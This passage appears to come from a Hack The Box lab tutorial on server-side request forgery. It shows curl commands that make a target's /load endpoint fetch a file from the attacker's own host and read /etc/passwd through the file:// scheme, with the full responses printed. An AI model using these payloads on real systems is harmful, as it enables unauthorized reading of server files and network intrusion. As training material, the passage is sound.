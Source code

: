 5.  Retrieve index.html through the target application using the `http` schema, as follows

#### Retrieving a remote file through the target application - HTTP Schema

```shell
p3ta@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 41
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:26:18 GMT

<html>
</body>
<a>SSRF</a>
<body>
<html>
```

6.  Retrieve a local file using the file schema, as follows

#### Retrieving a local file through the target application - File Schema

```shell
p3ta@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd" 

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 926
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:27:17 GMT

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
